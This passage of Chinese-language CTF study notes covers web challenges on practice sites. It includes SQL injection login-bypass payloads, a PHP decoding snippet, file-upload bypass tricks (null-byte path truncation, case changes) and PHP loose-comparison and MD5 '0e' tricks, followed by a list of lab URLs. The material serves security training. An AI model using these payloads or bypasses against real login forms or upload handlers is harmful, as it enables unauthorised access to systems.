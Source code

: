 2. 后台登陆型
	给了源代码，主要看sql语句，注释掉后面的and (pw='$pass')，当注意闭合小括号 
	
	```
	payload  ：user=admin')#&pass=432142
	1.http://ctf1.shiyanbar.com/web/4/index.php

	2.http://ctf1.shiyanbar.com/web/5/index.php
	//这题可以看看asp代码审计第一题，你或许有思路，后面有答案鼠标刮过即可（鼠标选	中冒号后面的空白）：user=' union select 	'c4ca4238a0b923820dcc509a6f75849b'  from php -- &pass=1
	那个MD5是密码1的md5
	```

##5 .代码逆向

[http://www.shiyanbar.com/ctf/1760][35]

### 1. 解密代码

```
$cipher = 'a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws';  
$tmp = base64\_decode(strrev(str\_rot13($cipher)));  
echo $tmp;  
$b = '';  
for ($i=0; $i \< strlen($tmp); $i++) {   
     $a = substr($tmp, $i, 1);  
     $b = $b.chr(ord($a)-1);  
       } 
  echo strrev($b);  

### 2. 上传绕过类
[http://ctf4.shiyanbar.com/web/upload](http://ctf8.shiyanbar.com/phpaudit/)  //这个注意看抓包的数据，既有路径，又有文件名，文件名不行，就试试路径的00截断   /uploads/sdf.php+十六进制的00

#### multipart/form-data大写绕过

----

## php的特性

### 1. 数字与字符串比较

	var\_dump( 0 == "a" );   

	var\_dump( "0" == "a" );  	
	
	第一个返回的是 true ，第二个返回的是 false
	
	因为php把字母开头的转化为整型时，转化为0， 前面数字后面字母的话就只取到第一个字母出现的位置之前（如intval(''123abd45gf)结果为123）

### 2. md5“碰撞”
	因为php 0e开头的字符串都是==的，不是===哦
	
	```
	var_dump("0e462097431906854"=="0e83040041");  
	上面这个返回true，如果题目的md5是0e开头的，你懂的
	下面给一组数据吧
	md5('240610708') 的结果是：0e462097431906509019562988736854   
	md5('QNKCDZO') 的结果是：0e830400451993494058024219903391  
240610708、QNKCDZO、aabg7XSs、aabC9RqS
	```
	
### 3. md5数组
	
	md5(array) == NULL

```

[1]:	http://lab1.xseclab.com/base1_4a4d993ed7bd7d467b27af52d2aaa800/index.php
[2]:	http://lab1.xseclab.com/base66082c908819e105c378eb93b6631c4d3/index.php
[3]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[4]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[5]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[6]:	http://lab1.xseclab.com/base7%5C_eb68bd2f0d762faf70c89799b3c1cc52/index.php
[7]:	http://ctf1.shiyanbar.com/basic/catch/
[8]:	http://lab1.xseclab.com/base8%5C_0abd63aa54bef0464289d6a42465f354/index.php
[9]:	http://lab1.xseclab.com/base10%5C_0b4e4866096913ac9c3a2272dde27215/index.php
[10]:	http://lab1.xseclab.com/xss1%5C_30ac8668cd453e7e387c76b132b140bb/index.php
[11]:	http://ctf1.shiyanbar.com/basic/js/index.asp
[12]:	http://lab1.xseclab.com/base12%5C_44f0d8a96eed21afdc4823a0bf1a316b/index.php
[13]:	http://ctf5.shiyanbar.com/DUTCTF/1.html
[14]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[15]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[16]:	http://lab1.xseclab.com/realxss3%5C_9b28b0ff93d0b0099f5ac7f8bad3f368/index.php
[17]:	http://ctf8.shiyanbar.com/aspaudit/
[18]:	http://ctf8.shiyanbar.com/phpaudit/
[19]:	http://ctf1.shiyanbar.com/web/4/index.php
[20]:	http://ctf5.shiyanbar.com/DUTCTF/index.php
[21]:	http://ctf1.shiyanbar.com/web/5/index.php
[22]:	http://ctf4.shiyanbar.com/web/false.php
[23]:	http://ctf4.shiyanbar.com/web/Session.php
[25]:	http://ctf4.shiyanbar.com/web/Session.php
[26]:	http://ctf5.shiyanbar.com:8080/9/asp.asp
[27]:	http://ctf5.shiyanbar.com/8/index.php?id=1
[28]:	http://lab1.xseclab.com/sqli2%5C_3265b4852c13383560327d1c31550b60/index.php
[29]:	http://lab1.xseclab.com/sqli3%5C_6590b07a0a39c8c27932b92b0e151456/index.php
[30]:	http://lab1.xseclab.com/sqli4%5C_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1
[31]:	http://lab1.xseclab.com/sqli5%5C_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1
[32]:	http://ctf4.shiyanbar.com/web/10.php
[35]:	http://ctf4.shiyanbar.com/web/10.php